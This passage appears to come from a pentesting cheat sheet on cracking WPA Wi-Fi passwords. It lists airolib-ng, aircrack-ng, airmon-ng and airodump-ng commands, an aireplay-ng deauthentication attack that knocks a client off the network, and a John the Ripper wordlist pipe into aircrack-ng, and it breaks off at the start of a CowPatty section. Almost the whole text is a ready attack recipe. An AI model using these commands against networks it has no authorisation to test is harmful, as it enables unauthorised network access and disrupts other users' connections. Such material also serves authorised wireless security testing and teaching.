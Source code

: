Have airolib-ng generate the PMK for us:

```text
airolib-ng testdb --batch
```

Check Stats for Database to confirm everything is ready:

```text
airolib-ng testdb --stats
```

Use database to crack passwords:

```text
aircrack-ng -r testdb <wpa-capture-filename>
```

## Cracking WPA with JtR

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Deauth Attack:

```text
aireplay-ng -0 1 -a $AP -c $VIC mon0
```

Utilize John to Crack Password:

```text
cd /pentest/passwords/john
./john --wordlist=<path to wordlist> --rules --stdout|aircrack-ng -0 -e <AP ESSID> -w - <capture file>
```

## Cracking WPA with CowPatty

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Deauth Attack:
